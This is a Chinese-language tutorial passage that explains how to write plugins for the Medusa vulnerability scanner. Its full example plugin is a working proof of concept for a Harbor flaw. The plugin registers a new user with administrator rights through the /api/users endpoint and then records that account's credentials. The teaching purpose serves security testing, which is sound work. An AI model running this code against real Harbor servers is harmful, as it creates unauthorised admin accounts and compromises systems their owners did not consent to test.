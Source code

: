 | version      | 漏洞所影响的版本         | 只要写漏洞所影响的版本范围，适用于那些版本     |
| disclosure | 披露时间 | 漏洞披露时间，如果不知道就写编写插件的时间 |

### medusa函数

```python
def medusa(**kwargs)->None:
    url=kwargs.get("Url")#获取传入的url参数
    Headers=kwargs.get("Headers")#获取传入的头文件
    proxies=kwargs.get("Proxies")#获取传入的代理参数
    try:
        payload = '/api/users'
        payload_url = url + payload
        #在原始传入的标头中添加需要的其他标头
        Headers["Accept"]="application/json"
        Headers["Content-Type"]="application/json"
        
        rm = "MedusaTextPoc"+randoms().result(5)  # 获取随机数
        data= {
            "username": rm,
            "email": rm+"@qq.com",
            "realname": rm,
            "password": rm,
            "comment": rm,
            "has_admin_role": True
        }

        data = json.dumps(data)
        resp = requests.post(payload_url,data=data,headers=Headers, proxies=proxies, timeout=6, verify=False)
        head = resp.headers.get("Location")
        code = resp.status_code
        if code == 201 and head.find("/api/users/")!=-1:
            Medusa = "{}存在Harbor任意管理员注册漏洞\r\n验证数据:\r\n漏洞位置:{}\r\n账号:{}\r\n密码:{}\r\n注册账号数量:{}\r\n".format(url,
                                                                                                          payload_url,
                                                                                                          rm,rm,head)
            _t = VulnerabilityInfo(Medusa)
            VulnerabilityDetails(_t.info, resp,**kwargs).Write()  # 传入url和扫描到的数据
            WriteFile().result(str(url),str(Medusa))#写入文件，url为目标文件名统一传入，Medusa为结果
    except Exception as e:
        _ = VulnerabilityInfo('').info.get('algroup')
        ErrorHandling().Outlier(e, _)
        ErrorLog().Write("Plugin Name:"+_+" || Target Url:"+url,e)  # 调用写入类传入URL和错误插件名
```

##### 注意点:

- ###### 固定提取参数

